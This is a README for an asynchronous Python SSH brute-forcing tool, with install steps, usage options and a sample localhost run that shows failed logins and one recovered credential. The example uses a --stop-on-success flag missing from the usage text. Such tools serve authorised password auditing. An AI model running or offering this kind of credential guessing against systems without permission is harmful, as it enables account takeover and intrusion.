 ## 🚀 Asynchronous SSH Brute Forcer

A high-performance, asynchronous SSH brute-forcing tool written in Python. Leveraging `asyncio` and `asyncssh`, this script attempts multiple username/password combinations concurrently..

---

## 📝 Features

- **Asynchronous Execution:** Built on `asyncio` and `asyncssh`.
- **Configurable Concurrency:** Limit the number of simultaneous SSH connections with Semaphore.
- **Wordlist Support:** Accepts separate user and password lists.
- **Result Summary:** Collects and displays all successful login combinations.

---

## ⚙️ Requirements

- Python 3.11+
- `asyncssh` library

```bash
pip install asyncssh
````

---

## 📚 Usage

```
usage: ssh_brute_forcer.py [-h] -i IP [-t TASKS] -u USER_LIST -p PASSWORD_LIST [-P PORT]

options:
  -h, --help            show this help message and exit
  -i IP, --ip IP        IPv4 address of the target host
  -t TASKS, --tasks TASKS
                        Maximum number of tasks at once.
  -u USER_LIST, --user-list USER_LIST
                        User list.
  -p PASSWORD_LIST, --password-list PASSWORD_LIST
                        Password list.
  -P PORT, --port PORT  Alternative SSH port.
```

## 🌟 Example

```bash
python3 ssh_brute_forcer.py -i 127.0.0.1 -u users.txt -p passwords.txt -t 4 --stop-on-success
[-] Incorrect login: hidalgo:Contraseña1234
[-] Incorrect login: hidalgo:hola123
[-] Incorrect login: hidalgo:adios9999
[-] Incorrect login: arthur:adios9999
[-] Incorrect login: arthur:hola123
[-] Incorrect login: arthur:Contraseña1234
[+] Succesful login: ernest:hola123
Exiting...
[+] Correct logins:
ernest:hola123
All done in 5.73 seconds!
Valid credentials found!
```

